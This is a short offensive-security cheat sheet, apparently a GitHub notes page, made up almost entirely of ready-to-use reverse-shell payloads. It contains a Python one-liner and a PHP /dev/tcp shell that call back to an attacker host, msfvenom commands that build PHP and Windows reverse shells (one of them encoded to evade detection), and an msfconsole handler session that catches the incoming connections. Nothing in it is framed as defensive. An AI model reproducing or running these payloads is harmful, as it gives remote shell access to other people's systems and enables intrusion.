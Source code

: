 ### Python Reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("my-ip",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
### php reverse shell
```
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

## msfvenom cheat sheet

### PHP Reverse shell
```
msfvenom -p php/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -f raw
``` 

### windows reverse shell
```
msfvenom -p windows/shell_reverse_tcp -LHOST=<attacker_ip> -LPORT=4444
```

### Encoded Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4545 -f c -e x86/shikata_ga_nai

## msfconsole
```
root@kali:~$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
